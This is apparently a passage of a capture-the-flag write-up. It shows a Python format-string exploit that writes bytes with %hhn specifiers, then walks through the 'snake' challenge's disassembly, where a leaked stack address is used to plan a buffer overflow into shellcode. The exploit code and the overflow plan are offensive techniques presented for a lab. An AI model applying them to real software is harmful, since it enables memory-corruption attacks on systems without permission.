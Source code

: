```
setup_len = len(payload)

n_val = [setup_len]
n_val += [get_n(u8('A'), sum(n_val[:1]), 8)]
n_val += [get_n(u8('P'), sum(n_val[:2]), 8)]
n_val += [get_n(u8('E'), sum(n_val[:3]), 8)]
n_val += [get_n(u8('S'), sum(n_val[:4]), 8)]

# our inputted address start at stack offset 3
payload += '%{}c'.format(n_val[1]).encode()
payload += b'%3$hhn'
payload += '%{}c'.format(n_val[2]).encode()
payload += b'%4$hhn'
payload += '%{}c'.format(n_val[3]).encode()
payload += b'%5$hhn'
payload += '%{}c'.format(n_val[4]).encode()
payload += b'%6$hhn'

p.sendline(payload)
```

snake
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
- Getting the address of the name buffer, given the leaked address: I actually got quite close, having accounted for the new stack frame. But I had forgotten about the pushed eip before the actual jump to `get_name`, so I was off by 4.

Script/Command used (Writeup)
------------------

```
push    eax {var_78_1}
push    0x63 {var_7c}
lea     eax, [ebp-0x70 {var_74}]
push    eax {var_74} {var_80_1}
call    fgets
add     esp, 0xc
lea     eax, [ebp-0x70 {var_74}]
push    eax {var_74} {var_78_2}
call    strlen
add     esp, 0x4
cmp     eax, 0x50
jbe     0x952
```
In `read_option` there is a check if length of our specified password is less than or equal to 50. If it is, there is a fail message, otherwise there is an attempt to print the flag. Notice the buffer used in fgets is at ebp-0x70, which is also where the esp is (at the beginning, after ebp is put in esp, there are 2 pushes so -8 and a sub of -0x68).
```
lea     eax, [ebx-0x14b9]  {data_af3, "printing flag..."}
push    eax {var_78}  {data_af3, "printing flag..."}
call    puts
add     esp, 0x4
lea     eax, [ebp-0xc {var_10}]
push    eax {var_10} {var_78_3}
lea     eax, [ebx-0x14a8]  {data_b04, "Error occurred while printing fl…"}
push    eax {var_7c}  {data_b04, "Error occurred while printing fl…"}
call    printf
```
Although we don't get a flag, what we do get is a stack address, which is the address ebp-0xc. We can use this in a buffer overflow attack to return to some shellcode that we'll place in the buffer.
